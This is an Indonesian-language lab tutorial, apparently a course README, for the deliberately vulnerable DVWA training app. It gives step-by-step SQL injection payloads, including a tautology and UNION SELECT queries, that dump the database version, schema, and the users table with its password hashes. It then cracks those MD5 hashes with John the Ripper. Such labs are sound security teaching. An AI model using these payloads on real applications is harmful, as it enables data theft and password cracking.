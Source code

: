 # Lesson 6 - Manual SQL Injection, John the Ripper


## Set DVWA dengan low Security

1. Login pada dvwa
	* username: admin
	* password: password
2. Lalu set Security menjadi low
	* klik "DVWA security"
	* set menjadi *low*

![1 set fedora low](https://user-images.githubusercontent.com/17487644/34214252-7e60bd60-e5d4-11e7-98bf-1cef8db4e81f.png)

## Manual SQL injection
1. pilih "sql injection" pada sidebar
2. Coba mengecek data user dengan menggunakan user id

![1 test the user_id](https://user-images.githubusercontent.com/17487644/34215884-5495172e-e5d9-11e7-8cd3-4e85c3bd1620.png)

3. untuk menampilkan data semua user, masukan command:
	1.  %' or '0'='0
	2. lalu klik submit

![2 show all](https://user-images.githubusercontent.com/17487644/34215885-54cb5366-e5d9-11e7-9bcf-d20b66d0b5aa.png)

4. untuk menampilkan versi db, masukan command:
	1. %' or 0=0 union select null, version() #
	2. lalu klik submit
	* versi db akan keluar pada baris terakhir

![3 versi db](https://user-images.githubusercontent.com/17487644/34215886-55048c44-e5d9-11e7-8c75-ab1509759028.png)

5. untuk menampilkan user db, masukan command:
	1. %' or 0=0 union select null, user() #
	2. lalu klik submit
	* user db yang sedang mengakses akan ditampilkan di baris terakhir

![4 user db](https://user-images.githubusercontent.com/17487644/34215887-55474b9c-e5d9-11e7-83db-4ef89518a7e5.png)

6. menampilkan nama db, masukan command:
	1. %' or 0=0 union select null, database() #
	2. lalu klik submit
	* nama db yang digunakan akan tamil di baris terakhir

![5 nama db](https://user-images.githubusercontent.com/17487644/34215889-557e6f6e-e5d9-11e7-8fab-f48b56838131.png)

7. menampilkan information_schema, masukan command:
	1. %' and 1=0 union select null, table_name from information_schema.tables #
	2. klik submit
	* nama-nama tabel pada db information_schema akan ditampilkan pada tiap baris

![6 information schema](https://user-images.githubusercontent.com/17487644/34215890-55b53738-e5d9-11e7-9c37-260d061e8761.png)

8. menampilkan semua tabel user di db information_schema, masukan command:
	1. %' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
	2. klik submit
	* nama-nama tabel user akan ditampilkan tiap baris, tabel-tabel ini berisi password

![7 tabel contain password](https://user-images.githubusercontent.com/17487644/34215891-55f0a188-e5d9-11e7-938f-35d050968154.png)

9. menampilkan kolom-kolom pada tabel user, masukan command:
	1. %' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
	2. klik submit

![8 column of users](https://user-images.githubusercontent.com/17487644/34215892-562744f4-e5d9-11e7-81ca-8ebfc9d0a4b3.png)

10. menampilkan semua isi dari tabel user menggunakan nama kolom, masukan command:
	1. %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
	2. klik submit

![9 row tiap kolom username dan password](https://user-images.githubusercontent.com/17487644/34215894-565e5c50-e5d9-11e7-9820-2b6ada6a938a.png)
]

11. Membuat file notepad berisi password
	1. copy semua username dan password
	2. buka notepad

![10 open notepad](https://user-images.githubusercontent.com/17487644/34215895-56976f54-e5d9-11e7-8ec0-cf7188c543a0.png)

	3. lalu paste tiap-tiap username dan password
	4. lalu buat sehingga seperti pada gambar

![11 daftar nama password notepad](https://user-images.githubusercontent.com/17487644/34215897-56cea8b6-e5d9-11e7-8580-edb049d734e9.png)
	
	5. lalu simpan di folder "/pentest/passwords/john", dengan nama "dvwa_password.txt"

![12 save password-john](https://user-images.githubusercontent.com/17487644/34215898-5704d814-e5d9-11e7-8f20-02aa962205f7.png)


## Bukti Selesai Lesson 6
1. Buka terminal baru
2. cd /pentest/passwords/john
3. ./john --format=raw-MD5 dvwa_password.txt

![13 hasil - dapet password dvwa](https://user-images.githubusercontent.com/17487644/34215883-545e0022-e5d9-11e7-82fe-f4f59eb14453.png)